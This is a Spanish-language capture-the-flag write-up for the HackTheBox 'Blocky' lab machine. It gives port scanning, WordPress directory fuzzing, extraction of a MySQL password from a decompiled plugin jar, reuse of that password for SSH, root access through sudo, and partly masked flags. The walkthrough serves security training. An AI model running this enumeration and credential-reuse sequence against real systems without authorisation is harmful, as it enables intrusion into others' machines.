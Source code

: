 ```yaml
---
title: HTB - Blocky
published: true
categories: [Linux]
tags: [eJPT, Fácil]
---
```



<img src="/assets/HTB/Blocky/blocky.png">


¡Hola!
Vamos a resolver de la máquina `Blocky` de dificultad "Fácil" de la plataforma [HackTheBox](https://hackthebox.com/).

Técnicas Vistas: 

- **Wordpress Enumeration**
- **Information Leakage**
- **Analyzing a jar file - JD-Gui + SSH Access**
- **Abusing Sudoers Privilege [Privilege Escalation]**

### Preparación Entorno

* * *

Antes de iniciar la fase de enumeración y reconocimiento procederemos a crear un directorio de trabajo con el nombre `Blocky`. Una vez creado accedemos al directorio y con la ayuda de la función que tenemos definida en la zshrc `mkt` crearemos cuatro directorios de trabajo `nmap, content, exploits y scripts` donde almacenaremos de una manera ordenada toda la información que vayamos recopilando de la máquina en función de su naturaleza.

```bash
function mkt(){
    mkdir {nmap,content,exploits,scripts}
}
```

### Reconocimiento

* * *

Accedemos al directorio de trabajo `nmap` e iniciamos nuestra fase de reconocimiento realizando un `ping` a la IP de la máquina para comprobar que esté activa y detectamos su sistema operativo basándonos en el `ttl` de una traza **ICMP**.

```bash
❯ ping -c 1 10.10.10.37
PING 10.10.10.37 (10.10.10.37) 56(84) bytes of data.
64 bytes from 10.10.10.37: icmp_seq=1 ttl=63 time=42.3 ms

--- 10.10.10.37 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 42.314/42.314/42.314/0.000 ms
```
Identificamos que es una maquina **Linux** debido a su ttl (time to live) correspondiente a 63 (Disminuye en 1 debido a que realiza un salto adicional en el entorno de HackTHeBox).

* TTL => 64 Linux
* TTL => 128 Windows

Continuamos con la enumeración de los **65535** puertos en la máquina.

```bash
nmap -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.37 -oG allPorts

PORT      STATE SERVICE   REASON
21/tcp    open  ftp       syn-ack ttl 63
22/tcp    open  ssh       syn-ack ttl 63
80/tcp    open  http      syn-ack ttl 63
25565/tcp open  minecraft syn-ack ttl 63
```
Luego de identificar los puertos abiertos `OPEN`, se procede a escanear servicios y versiones que puedan estar corriendo en los puertos abiertos detectados.

```bash
nmap -sCV -p21,22,80,25565 10.10.10.37 -oN targeted

PORT      STATE SERVICE   VERSION
21/tcp    open  ftp?
22/tcp    open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open  http      Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
25565/tcp open  minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Añadimos `blocky.htb` a nuestro `/etc/hosts`

### Reconocimiento Web

* * *

Iniciamos el reconocimiento del servicio web con la herramienta `whatweb` la cual nos muestra información sobre las tecnologías web que incluyen sistemas de gestión de contenido (CMS), plataformas de blogs, paquetes de estadísticas / análisis, bibliotecas JavaScript, servidores web y dispositivos integrados.

```bash
❯ whatweb http://blocky.htb
http://blocky.htb [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.22.41], JQuery[1.12.4], MetaGenerator[WordPress 4.8], PoweredBy[WordPress,WordPress,], Script[text/javascript], Title[BlockyCraft &8211; Under Construction!], UncommonHeaders[link], WordPress[4.8]
```

Visitamos la página en cuestión y vemos un Wordpress del que podemos extraer un posible usuario válido **notch** en la publicación de un post


<img src="/assets/HTB/Blocky/web.png">


Seguimos fuzzeando para encontrar posibles rutas de directorios, pare ello utilizaremos el diccionario `common.txt`

```bash
wfuzz -c --hc=404 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/common.txt "http://blocky.htb/FUZZ"

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://blocky.htb/FUZZ
Total requests: 4713

=====================================================================
ID           Response   Lines    Word       Chars       Payload                       
=====================================================================

000000024:   403        11 L     32 W       294 Ch      ".htaccess"                   
000000023:   403        11 L     32 W       289 Ch      ".hta"                        
000000025:   403        11 L     32 W       294 Ch      ".htpasswd"                   
000002317:   301        9 L      28 W       313 Ch      "javascript"                  
000003105:   301        9 L      28 W       313 Ch      "phpmyadmin"                  
000003151:   301        9 L      28 W       310 Ch      "plugins"                     
000003710:   403        11 L     32 W       298 Ch      "server-status"               
000004581:   301        9 L      28 W       314 Ch      "wp-includes"                 
000004568:   301        9 L      28 W       311 Ch      "wp-admin"                    
000004575:   301        9 L      28 W       313 Ch      "wp-content"                  
000004540:   301        9 L      28 W       307 Ch      "wiki"                        
000004647:   405        0 L      6 W        42 Ch       "xmlrpc.php"                  
```

Vemos directorios típicos de una estructura de Wordpress. Dentro de plugins nos econtramos dos archivos java


<img src="/assets/HTB/Blocky/plugins.png">


El archivo `griefprevention` es un plugin open source que está disponible de manera libre, sin embargo `BlockyCore` parece ser un archivo creado por el administrador del server. Lo decompilamos con `JD-GUI` y encontramos credenciales de root para MySQL


<img src="/assets/HTB/Blocky/pass.png">


Siempre hay que tratar de comprobar la posibilidad de que se haya reutilizado la contraseña por lo que procedemos a probarla con el usuario que identificamos en el post de Wordpress

```bash
❯ ssh notch@10.10.10.37
notch@10.10.10.37 s password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Tue Nov  8 10:39:12 2022 from 10.10.14.19
notch@Blocky:~$ 
```
### Escalada Privilegios

* * *

Iniciamos la enumeración de grupos del usuario `notch`

```bash
notch@Blocky:~$ id 
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

Estamos en el grupo `sudo` y tenemos la password de notch

```bash
notch@Blocky:~$ sudo su                
[sudo] password for notch: 
root@Blocky:/home/notch# whoami
root
```

### Flags

* * *

Tras una búsqueda desde la raíz localizamos las flags en sus respectivos directorios. Con el comando `cat` nos muestra el contenido.

```bash
#USER
find / -name user.txt
/home/notch/user.txt
cat /home/notch/user.txt
670df27f532776c47***************
```

```bash
#ROOT
find / -name root.txt
/root/root.txt
cat /root/root.txt
0a585d77c9697cb72***************
```

Hemos completado la máquina **Blocky** de HackTheBox!! Happy Hacking!!


<img src="/assets/HTB/Blocky/pwned.png">
